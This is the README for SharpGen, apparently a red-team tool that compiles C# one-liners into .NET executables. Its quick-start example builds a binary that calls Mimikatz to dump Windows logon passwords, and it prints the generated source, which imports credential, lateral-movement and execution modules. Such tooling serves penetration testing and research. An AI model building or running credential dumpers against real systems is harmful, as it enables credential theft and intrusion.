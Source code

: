 # SharpGen

[SharpGen](https://github.com/cobbr/SharpGen) is a .NET Core console application that utilizes the [Rosyln](https://github.com/dotnet/roslyn) C# compiler to quickly cross-compile .NET Framework console applications or libraries.

### Intro

You'll find details and motivations for the SharpGen project in this [introductory blog post](https://cobbr.io/SharpSploit.html).

### Quick Start

The most basic usage of SharpGen would be to provide SharpGen an output filename and a C# one-liner that you’d like to execute. SharpGen will generate a .NET Framework console application that will execute the one-liner. For example:

```
cobbr@mac:~ > git clone https://github.com/cobbr/SharpGen
cobbr@mac:~ > cd SharpGen
cobbr@mac:~/SharpGen > dotnet build
cobbr@mac:~/SharpGen > dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe "Console.WriteLine(Mimikatz.LogonPasswords());"
[+] Compiling source:
using System;
using System.IO;
using System.Text;
using System.Linq;
using System.Security.Principal;
using System.Collections.Generic;
using SharpSploit.Credentials;
using SharpSploit.Enumeration;
using SharpSploit.Execution;
using SharpSploit.LateralMovement;
using SharpSploit.Generic;
using SharpSploit.Misc;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[+] Compiling optimized source:
using System;
using SharpSploit.Credentials;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[*] Compiled assembly written to: /Users/cobbr/SharpGen/Output/example.exe
```
